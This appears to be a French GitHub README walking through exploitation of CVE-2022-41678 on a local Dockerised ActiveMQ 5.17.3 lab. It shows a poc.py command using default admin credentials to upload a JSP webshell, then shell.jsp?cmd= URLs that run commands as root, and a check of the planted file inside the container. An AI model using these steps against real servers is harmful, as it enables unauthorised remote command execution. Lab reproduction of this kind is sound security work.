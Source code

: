 # Exploitation de CVE-2022-41678

Ce document détaille les étapes pour exploiter la vulnérabilité **CVE-2022-41678** sur un serveur ActiveMQ. Il comprend la configuration de l'environnement, l'exécution de l'exploit et la vérification des résultats.

---

## **1. Configuration de l'environnement ActiveMQ**

### Lancer ActiveMQ avec Docker
1. Accédez au dossier `activemq_2022`.
2. Démarrez ActiveMQ en arrière-plan avec la commande suivante :
   ```bash
   docker compose up -d
   ```
3. Accédez à l'interface d'administration ActiveMQ dans votre navigateur à l'adresse :
   ```
   http://localhost:8161/admin/
   ```
   Vous devriez voir la version ActiveMQ (exemple : **5.17.3**).

   ![Interface ActiveMQ](https://github.com/user-attachments/assets/4b41d643-0f8f-428c-8947-7d262ad6d675)

### Vérifier la version d'ActiveMQ
- La version peut également être confirmée dans le fichier `docker-compose.yml`.

   ![Version dans docker-compose.yml](https://github.com/user-attachments/assets/75a8b851-0764-4f93-b1c9-d5dad932761b)

---

## **2. Identifier les services actifs**

Utilisez `nmap` pour scanner les ports ouverts et confirmer que les services ActiveMQ sont actifs :
```bash
nmap -p- 192.168.1.145
```

   ![Résultats de nmap](https://github.com/user-attachments/assets/25f4b9ef-635b-4b9a-9c9d-45d6ca0e4f06)

---

## **3. Exploiter la vulnérabilité**

### Exécution de l'exploit
1. Utilisez le script `poc.py` pour exploiter la vulnérabilité avec la commande suivante :
   ```bash
   python3 poc.py -u admin -p admin http://localhost:8161
   ```
   Cette commande envoie une requête malveillante pour téléverser un fichier WebShell.

   ![Envoi de l'exploit](https://github.com/user-attachments/assets/c0103ec8-63c1-4ff0-964e-90c0822ae66d)

### Accéder au WebShell
2. Une fois l'exploit réussi, ouvrez le WebShell dans votre navigateur à l'adresse suivante :
   ```
   http://localhost:8161/admin/shell.jsp?cmd=id
   ```
   - La commande `id` retourne l'utilisateur actuel, par exemple : `uid=0(root) gid=0(root) groups=0(root)`.

   ![Confirmation de l'accès root](https://github.com/user-attachments/assets/9b84720c-4359-453e-86f3-edb637c67039)

3. Remplacez `cmd=id` par d'autres commandes pour interagir avec le serveur. Exemple :
   ```
   http://localhost:8161/admin/shell.jsp?cmd=ls
   ```
   - Cela affiche la liste des fichiers présents sur le serveur.

   ![Affichage des fichiers](https://github.com/user-attachments/assets/2b1241fb-b26f-4f18-abff-4db980a52eb0)

---

## **4. Vérification du succès de l'injection**

### Accéder au conteneur ActiveMQ
1. Listez les conteneurs actifs pour récupérer l'ID du conteneur ActiveMQ :
   ```bash
   docker ps -a
   ```

   ![Liste des conteneurs](https://github.com/user-attachments/assets/ee668944-b29f-4b7e-a323-a812d2445003)

2. Accédez au conteneur ActiveMQ avec la commande suivante :
   ```bash
   docker exec -it <ID_du_conteneur> /bin/bash
   ```
   - Remplacez `<ID_du_conteneur>` par l'ID récupéré précédemment.

### Vérifier l'injection du WebShell
1. Accédez au répertoire où le WebShell a été téléversé :
   ```bash
   cd /opt/activemq/webapps/admin/
   ```

   ![Accès au répertoire admin](https://github.com/user-attachments/assets/33206ee1-aeeb-4758-83f6-04286460ed72)

2. Vérifiez la présence du fichier `shell.jsp` :
   ```bash
   ls
   ```

   ![Vérification de shell.jsp](https://github.com/user-attachments/assets/06ea52ec-ef9a-4705-a416-30c6b62f00f4)

3. Confirmez le contenu du fichier WebShell en l'ouvrant avec une commande comme :
   ```bash
   cat shell.jsp
   ```

   ![Contenu du WebShell](https://github.com/user-attachments/assets/6953fdea-10b1-4a3c-b2be-47962d3af384)

   Cette étape montre clairement que le fichier WebShell a été injecté et est prêt à être utilisé.

---
